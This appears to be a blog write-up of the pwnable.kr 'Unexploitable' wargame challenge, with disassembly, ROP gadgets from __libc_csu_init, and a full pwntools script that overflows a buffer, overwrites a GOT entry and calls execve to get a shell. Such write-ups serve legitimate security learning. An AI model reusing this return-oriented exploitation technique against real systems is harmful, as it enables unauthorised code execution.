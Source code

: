 ```yaml
---
layout: post
title: pwnable.kr - Unexploitable
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
  - pwnable.kr
  - pwnable
published: true
---
```


The challenge named "Unexploitable" which is one of Hacker's Secret and has 500 points.

<!--more-->

## Overview
The main function has few code.
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400544 <+0>:	push   rbp
   0x0000000000400545 <+1>:	mov    rbp,rsp
   0x0000000000400548 <+4>:	sub    rsp,0x10
   0x000000000040054c <+8>:	mov    edi,0x3
   0x0000000000400551 <+13>:	mov    eax,0x0
   0x0000000000400556 <+18>:	call   0x400450 <sleep@plt>
   0x000000000040055b <+23>:	lea    rax,[rbp-0x10]
   0x000000000040055f <+27>:	mov    edx,0x50f
   0x0000000000400564 <+32>:	mov    rsi,rax
   0x0000000000400567 <+35>:	mov    edi,0x0
   0x000000000040056c <+40>:	mov    eax,0x0
   0x0000000000400571 <+45>:	call   0x400430 <read@plt>
   0x0000000000400576 <+50>:	leave  
   0x0000000000400577 <+51>:	ret    
End of assembler dump.
```
From above, we know that we can use two functions (sleep, read) and overflow the buffer.

## Payload Building
I need the ability that writes and reads arbitrary memory or calls arbitrary code but all we have is just overflowable read functions in main. So, I looked through main function and found syscall gadget which can be used for getting shell.
```
...
0x0000000000400560 (main+28) : syscall
...
```
And also I found some gadgets that looks useful from [ropshell](http://ropshell.com/).

csu_set:
```
0x4005e6 <__libc_csu_init+102>: mov rbx,QWORD PTR [rsp+0x8]
0x4005eb <__libc_csu_init+107>: mov rbp,QWORD PTR [rsp+0x10]
0x4005f0 <__libc_csu_init+112>: mov r12,QWORD PTR [rsp+0x18]
0x4005f5 <__libc_csu_init+117>: mov r13,QWORD PTR [rsp+0x20]
0x4005fa <__libc_csu_init+122>: mov r14,QWORD PTR [rsp+0x28]
0x4005ff <__libc_csu_init+127>: mov r15,QWORD PTR [rsp+0x30]
0x400604 <__libc_csu_init+132>: add rsp,0x38
0x400608 <__libc_csu_init+136>: ret
```
csu_call:
```
0x4005d0 <__libc_csu_init+80>: mov rdx,r15
0x4005d3 <__libc_csu_init+83>: mov rsi,r14
0x4005d6 <__libc_csu_init+86>: mov edi,r13d
0x4005d9 <__libc_csu_init+89>: call QWORD PTR [r12+rbx*8]
```
We can call arbitrary function with arbitrary arguments (max: 3) using this gadgets now. But for getting shell with syscall, we have to satisfy some condition. See [Linux System Call Table For X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).
![]({{ site.baseurl }}/images/KRater/2020-08-18-pwnable-kr-Unexploitable/pic01.png)

The pointer of filename - rdi - will be .bss section which has `/bin/sh` string. And rax, which has to be 59, will be set by the return value of read function.

## Exploit

Full exploit code:
```python
from pwn import *

csu_set = 0x4005e6
csu_call = 0x4005d0
main_addr = 0x400544
syscall_addr = 0x400560
read_got = 0x601000
sleep_got = 0x601010

bss = 0x601000
binsh = bss + 0x28 # 0x601028
rax_dummy = bss + 0x38 # 0x601038

def chain(func, arg1, arg2, arg3):
    payload = p64(0)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)

    payload += p64(csu_call)

    return payload

r = process("/home/unexploitable/unexploitable")
p = log.progress("Getting shell...")
p.status("Doing exploit... (1/2)")

sleep (3)

payload = "A"*24 + p64(csu_set) + chain(bss, 0, binsh, 0x8) + p64(main_addr)*10
r.send(payload)

sleep (0.5)

r.send("/bin/sh\x00")

sleep (3)

payload = "B"*24 + p64(csu_set) + chain(read_got, 0, sleep_got, 8) + chain(read_got, 0, rax_dummy, 59) + chain(sleep_got, binsh, 0, 0)
r.send(payload)

p.status ("Doing exploit... (2/2)")

sleep (0.5)

r.send(p64(syscall_addr))

sleep (0.5)

r.send("C"*59)

p.success("done ;)")

r.interactive()
```

```bash
unexploitable@pwnable:blahblah$ python attack.py
[+] Starting local process '/home/unexploitable/unexploitable': pid 426386
[+] Getting shell...: done ;)
[*] Switching to interactive mode
$ id
uid=1074(unexploitable) gid=1074(unexploitable) egid=1075(unexploitable_pwn) groups=1075(unexploitable_pwn),1074(unexploitable)
```
